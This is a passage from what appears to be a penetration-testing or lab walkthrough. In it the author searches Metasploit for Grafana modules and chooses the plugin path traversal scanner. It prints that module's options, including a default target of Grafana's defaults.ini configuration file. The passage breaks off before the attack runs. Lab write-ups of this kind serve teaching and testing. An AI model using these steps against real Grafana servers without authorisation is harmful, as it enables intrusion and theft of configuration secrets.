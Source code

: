 ```
   #  Name                                             Disclosure Date  Rank    Check  Description                                                    
   -  ----                                             ---------------  ----    -----  -----------                                                            
   0  auxiliary/admin/http/grafana_auth_bypass         2019-08-14       normal  No     Grafana 2.0 through 5.2.2 authentication bypass for LDAP and OAuth     
   1  auxiliary/scanner/http/grafana_plugin_traversal  2021-12-02       normal  No     Grafana Plugin Path Traversal                                          
                                                                                                                                                              

Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/http/grafana_plugin_traversal

```
This will show a list of module that can be used to attack grafana and we have two modules. We are going to use auxiliary/scanner/http/grafana_plugin_traversal, why? try to run the following command:
```
msf6 > use auxiliary/scanner/http/grafana_plugin_traversal
msf6 auxiliary(scanner/http/grafana_plugin_traversal) > show info

       Name: Grafana Plugin Path Traversal
     Module: auxiliary/scanner/http/grafana_plugin_traversal
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2021-12-02

Provided by:
  h00die
  jordyv

Module side effects:
 ioc-in-logs

Module stability:
 crash-safe

Check supported:
  No

Basic options:
  Name          Current Setting                                Required  Description
  ----          ---------------                                --------  -----------
  DEPTH         13                                             yes       Traversal depth
  FILEPATH      /usr/share/grafana/conf/defaults.ini           yes       The name of the file to download
  PLUGINS_FILE  /usr/share/metasploit-framework/data/wordlist  yes       File containing plugins to enumerate
                s/grafana_plugins.txt
  Proxies                                                      no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS        	                                       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/us
                                                                         ing-metasploit.html
  RPORT         3000                                           yes       The target port (TCP)
  SSL           false                                          no        Negotiate SSL/TLS for outgoing connections
  TARGETURI     /                                              yes       Path to Grafana instance
  THREADS       1                                              yes       The number of concurrent threads (max one per host)
  VHOST                                                        no        HTTP server virtual host

Description:
```